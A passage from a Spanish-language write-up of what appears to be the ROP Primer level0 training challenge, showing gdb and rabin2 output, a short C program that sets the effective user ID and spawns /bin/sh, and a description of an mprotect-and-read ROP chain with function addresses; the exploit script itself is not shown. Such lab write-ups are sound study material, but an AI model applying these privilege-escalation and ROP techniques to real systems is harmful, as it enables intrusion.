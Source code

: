 ```python
```
Y aquí la ejecucción en el gdb donde se muestra que inicia un nuevo proceso:

```
gdb-peda$ 
process 3214 is executing new program: /root/Documents/Seccon/ropvulnhub/level0/processor
```
Tened en cuenta que se lanza un nuevo proceso llamado "processor" que coincide con una cadena que tiene el binario y nosotros hemos utilizado ese nombre para crear un binario con ese nombre y que contenga una shell. Es la técnica de la cadena del binario, no la de la variable EGG del entorno. 
```
rabin2 -z ./level0 | grep processor
Warning: Cannot initialize dynamic strings
vaddr=0x080b0ee6 paddr=0x00068ee6 ordinal=356 sz=10 len=9 section=.rodata type=ascii string=processor
```
Valor de proccesor.c:
```c
#include <stdio.h>
#include <unistd.h>

int main(void)
{
 int euid = geteuid();
 setreuid(euid, euid);
 execv("/bin/sh", NULL);
}
```
Aquí hay que constar que antes lo intenté con otra cadena:
```
vaddr=0x080ace48 paddr=0x00064e48 ordinal=133 sz=5 len=4 section=.rodata type=ascii string=apic
```
Pero no funcionaba porque en la dirección de la cadena contiene el código '0a'(LF-nueva línea) por lo que a la hora de cargar el payload creaba una nueva línea que impedía la ejecucción. Por eso cambié a processor que no contiene el valor '0a'.

Solución buena y muy instructiva:

Está perfectamente explicado aquí:
https://xmgv.wordpress.com/2015/08/15/rop-primer-level-0/

Se trata de utilizar la función mprotect para cambiar los permisos de un bloque de la memoria y hacer que sea ejecutable. Luego se llama a la función 'read' que va a leer el shellcode (/bin/sh) que le viene por pantalla y lo guarda en el bloque de memoria, previamente manipulado para que sea ejecutable. Por último se hace una llamada al comando cat para que ejecute el shellcode y se muestre por pantalla.

Valores útiles que vamos a necesitar para hacer el exploit:
```
gdb-peda$ p mprotect
$1 = {<text variable, no debug info>} 0x80523e0 <mprotect>
```
```
gdb-peda$ vmmap 
Start      End        Perm	Name
0x08048000 0x080ca000 r-xp	/root/Documents/Seccon/ropvulnhub/level0/level0
0x080ca000 0x080cb000 rw-p	/root/Documents/Seccon/ropvulnhub/level0/level0
...
```
Este es el python:
